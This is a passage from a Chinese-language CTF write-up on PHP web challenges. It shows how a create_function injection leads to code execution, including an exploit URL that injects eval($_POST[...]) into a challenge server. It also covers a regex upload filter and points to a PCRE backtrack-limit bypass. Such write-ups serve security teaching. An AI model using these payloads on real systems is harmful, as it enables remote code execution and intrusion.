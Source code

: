 ```
create_function('$a,$b','return 111;}phpinfo();//')

==>

function a($a, $b){
    return 111;}phpinfo();//
}
```
这样一来，我们想要执行的代码就会执行

exp
```
http://51.158.75.42:8087/?action=%5Ccreate_function&arg=return%202333;%7Deval($_POST%5B%27ddog%27%5D);%2f%2f
```
![image.png-251kB][2]

# easy pcrewaf

```
 <?php
function is_php($data){
    return preg_match('/<\?.*[(`;?>].*/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}

$user_dir = './data/';
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
    echo "bad request";
} else {
    @mkdir($user_dir, 0755);
    $path = $user_dir . '/' . random_int(0, 10) . '.php';
    move_uploaded_file($_FILES['file']['tmp_name'], $path);

    header("Location: $path", true, 303);
} 
```

这题自己研究的时候没想到怎么做，不过思路很清楚，文件名不可控，唯一能控制的就是文件内容。

所以问题的症结就在于如何绕过这个正则表达式。

```
/<\?.*[(`;?>].*/is
```

简单来说就是`<`后面不能有问号，`<?`后面不能有`(;?>反引号`，但很显然，这是不可能的，最少执行函数也需要括号才行。从常规的思路肯定不行

[https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)


  [1]: http://static.zybuluo.com/LoRexxar/cbo3ltlsxrnjxh8jqiulbjha/image.png
  [2]: http://static.zybuluo.com/LoRexxar/rx2eagas7du6o0pf4d91g5e8/image.png
  [3]: http://static.zybuluo.com/LoRexxar/hc8h3y7vvo3nce9i15jj1eqm/image.png
  [4]: http://static.zybuluo.com/LoRexxar/gwwvk7egkhj27k2zon6f2bc2/image.png
  [5]: http://static.zybuluo.com/LoRexxar/rml8zqyl2jy183cjel8df6av/image.png
  [6]: http://static.zybuluo.com/LoRexxar/aa3bs1plfwhlg5nm69i3wmem/image.png
  [7]: http://static.zybuluo.com/LoRexxar/v2u053p38hbpsdy3c08koj20/image.png
  [8]: http://static.zybuluo.com/LoRexxar/c9tepy22r9k6563g29kw8pr8/image.png
  [9]: http://static.zybuluo.com/LoRexxar/9ri7yi46c9cqch7tzzz1sr2u/image.png
  [10]: http://static.zybuluo.com/LoRexxar/c15jhqn4pixvau8ixc7n1is5/image.png
  [11]: http://static.zybuluo.com/LoRexxar/vq8bm8hefnnzscxpz8f7ka7d/image.png
  [12]: http://static.zybuluo.com/LoRexxar/sviykeendizwzekf4tbttbkz/image.png
  [13]: http://static.zybuluo.com/LoRexxar/klcd2lie0pz82a9by3fqh7ov/image.png
  [14]: http://static.zybuluo.com/LoRexxar/zkj2j6o7n6j2kz6kptgx57xr/image.png
  [15]: http://static.zybuluo.com/LoRexxar/vz39az7wgimmauv33eukobbn/image.png
  [16]: http://static.zybuluo.com/LoRexxar/vka9pxexoj8vnmxf1ilsdwwy/image.png
  [17]: http://static.zybuluo.com/LoRexxar/jueyk32hl7ip4n364y6gwhpf/image.png
  [18]: http://static.zybuluo.com/LoRexxar/hewv5e9mzsu34ucce367cjug/image.png
  [19]: http://static.zybuluo.com/LoRexxar/3mk7jhioca1p0q8f464papay/image.png
  [20]: http://static.zybuluo.com/LoRexxar/md4rru83wquxs62kricum5a1/image.png
  [21]: http://static.zybuluo.com/LoRexxar/ae0fr6ms7z7esyvagwbmbx2e/image.png
  [22]: http://static.zybuluo.com/LoRexxar/ps6iu6zj7j8wk4dv9mtpdiau/image.png
  [23]: http://static.zybuluo.com/LoRexxar/9sth0qe2l1jmrtwbodrcrezz/image.png
  [24]: http://static.zybuluo.com/LoRexxar/7pvi42gqs8ykm439pcg0vl9t/image.png
  [25]: http://static.zybuluo.com/LoRexxar/pjmb7nlix7afzs7emfwm2e4j/image.png